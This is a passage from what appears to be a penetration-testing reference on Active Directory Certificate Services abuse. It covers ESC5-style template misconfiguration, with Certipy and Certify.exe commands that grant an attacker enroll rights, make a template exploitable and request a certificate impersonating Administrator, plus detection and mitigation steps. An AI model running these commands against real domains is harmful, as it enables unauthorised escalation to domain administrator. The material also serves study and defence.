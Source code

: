 ### Then use Certipy to request a certificate:
```bash
certipy-ad req -u attacker -p password \
  -template CorpUser \
  -ca 'ca.domain.local\CA-NAME' \
  -upn 'Administrator@domain.local' \
  -pfx admin.pfx
```

## To Identify:
Use BloodHound or PowerView to find templates where:
- You have `WriteDACL` or `GenericAll` rights
- The template is not yet exploitable (but can be made so)

```powershell
Find-InterestingACE -ResolveGUIDs | ? {$_.ObjectType -eq 'EnrollmentServices'}
```

## Mitigation:
- Limit who has control over certificate templates.
- Audit permissions (especially DACLs) on all templates.
- Use `Certify` or `PSPKI` to inspect template ACLs regularly.

---

# ESC5 – Misconfigured Certificate Template + WriteDacl / FullControl
An attacker with `WriteDACL` or `FullControl` over a certificate template can modify it to become vulnerable — even if it was not originally exploitable — enabling certificate-based impersonation.

## Requirements:
- You have one of the following on a certificate template:
  - `WriteDACL`, `GenericAll`, or `FullControl`
- The template is **not currently exploitable**, but:
  - You can modify it to **add dangerous flags** such as:
    - `ENROLLEE_SUPPLIES_SUBJECT = True`
    - `Client Authentication` EKU
    - Add yourself to the Enroll/Autoenroll permissions

## Impact:
You can turn a safe template into an exploitable one. Then, you can request a certificate impersonating another user (e.g., Administrator) and authenticate using it.

## Example:
### Using Certify (Windows):
```cmd
# Give yourself enroll rights on the template
Certify.exe template /template:CorpUser /add_enroll:DOMAIN\\attacker

# Modify EKUs and flags to make it dangerous
Certify.exe template /template:CorpUser /seteku:"Client Authentication" /enrolleeSupplySubject:true
```
